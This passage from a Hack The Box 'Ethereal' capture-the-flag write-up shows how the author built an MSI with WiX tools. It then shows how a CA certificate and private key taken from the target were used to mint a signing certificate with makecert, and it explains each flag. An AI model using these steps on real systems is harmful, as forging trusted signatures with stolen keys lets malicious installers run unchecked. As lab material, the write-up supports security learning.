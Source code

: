 To convert the xml into an MSI we use the wix candle and light tools.

First we use the candle.exe tool to compile the xml file, then light.exe to build the msi file:
```
C:\Tools\wix311>candle.exe -out C:\htb\Ethereal\thoseguysdir.wixobj C:\htb\Ethereal\thoseguysdir.xml

C:\Tools\wix311>light.exe -o C:\htb\Ethereal\revdir.msi C:\htb\Ethereal\thoseguysdir.wixobj
```

Now we need to generate some certificates so that we can sign the msi as the note from Rupal suggested.

MyCA is a servers CA certificate, the server (and other machines) will not trust msi's signed by a CA certificate directly, CA certs are used to verify a certificate chain (the same goes for HTTPS) you cannot use a root CA cert for signing, so we need to create our own certificate from the servers CA certificate which we can then use to sign the MSI.

To do this we need to transfer the copies of the certificates over to our windows box and convert them to a PFX that Windows can work with.

Install the Windows SDK if you do not have it already. This is installed through Visual Studio or can be downloaded directly from [MicroSoft](https://developer.microsoft.com/en-us/windows/downloads/sdk-archive or https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk)

We started from the highest and worked our way back, in some cases the Windows 10, Windows 8 and 7.1 SDK's did not have the tools we needed.

Find one that installs the `pvk2pfx.exe` tool, should be located somewhere like `C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x86\pvk2pfx.exe`
[Another place to download them](https://docs.microsoft.com/en-us/windows-hardware/drivers/devtest/tools-for-signing-drivers)

In a command prompt use this tool to convert the pvk to a pfk file:
```
C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x86>pvk2pfx.exe /pvk C:\htb\Ethereal\MyCA.pvk /spc C:\htb\Ethereal\MyCA.cer /pfx C:\htb\Ethereal\MyCA.pfx
```

Now that we have a pfx certificate combining both the cer and the pvk Windows can work with, we are now able to use the `makecert` tool to generate our own certificate that is signed by the root certificates from the server:
```
C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x86>makecert.exe /n "CN=Ethereal" /pe /cy end /ic C:\htb\Ethereal\MyCA.cer /iv C:\htb\Ethereal\MyCA.pvk /sky signature /sv C:\htb\Ethereal\Thoseguys.pvk C:\htb\Ethereal\Thoseguys.cer
Succeeded
```

When prompted for a password no not enter one to continue:

![231899194.png]({{site.baseurl}}/Images/Ethereal/231899194.png)

Let's just break this command down for a second, because there is a lot of arguments:
```
/n - The Certificate Name. This in theory can be anything, but to be safe we names it the same as the target machine
/pe - Configures MakeCert to make the private key that is associated with the certificate exportable.
/cy - Certificate Type. We set this to 'end' because we are the end entity and not a CA
/ic - Path to the Issuer's Certificate (In our case the issuer is the certificate we stole from the server)
/iv - Path to the issuers Private Key (For us this is the pvl file from the server)
/sky - Subject's key specification, this can only be one of 3 values: Signature, Exchange or an integer. 
/sv - The Path of the signed private key to output (because we specified the /pe option)
Finally we also add the output path of the certificate.
```
